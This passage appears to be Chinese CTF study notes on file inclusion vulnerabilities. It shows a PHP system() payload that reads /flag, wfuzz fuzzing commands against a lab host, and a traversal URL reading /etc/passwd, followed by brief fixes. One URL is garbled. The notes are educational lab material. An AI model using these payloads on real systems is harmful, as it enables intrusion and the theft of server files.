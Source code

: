![image-20221124131721695](https://img.gyxnb.top/img/image-20221124131721695.png)

`<?php system('cat /flag'); ?>`

ctfhub{027551702824f698029993a4}

# 文件包含漏洞挖掘与利用

##  URL关键字 

参数名字出现了page、file、filename、include等等关键字。 

URL参数值出现了文件名，比如xxx.php xxx.html 等等。 



比如： 

`?file=content` 

`?page=wuya.asp` 

`?home=wuya.html`

## 利用流程 

1. 发现漏洞 
2. 上传shell / 读取敏感文件（FUZZ） 
3. 执行恶意代码

## 技巧

### LFISuite

https://github.com/D35m0nd142/LFISuite

没有判断是否有文件包含的功能，只是利用文件包含的工具，帮助获取命令执行的权限。

### wfuzz

```
wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt http://192.168.31.193:8090/include.php?file=FUZZ
```

使用wfuzz跑网页的目录。

过滤重复的数据。

```
wfuzz --hw 35 -w /usr/share/wordlists/wfuzz/general/common.txt http://192.168.31.193:8090/include.php?file=FUZZ
```



使用多个`../`

 http://LinSutruxcItuPre/dinQucelryuLdanegu.apgehp?file=../../../../../etc/passwd

# 文件包含漏洞修复方案

## 修复

1.  PHP配置 
2. 用动态包含 
3. 过滤协议、目录字符 
4. 设置文件白名单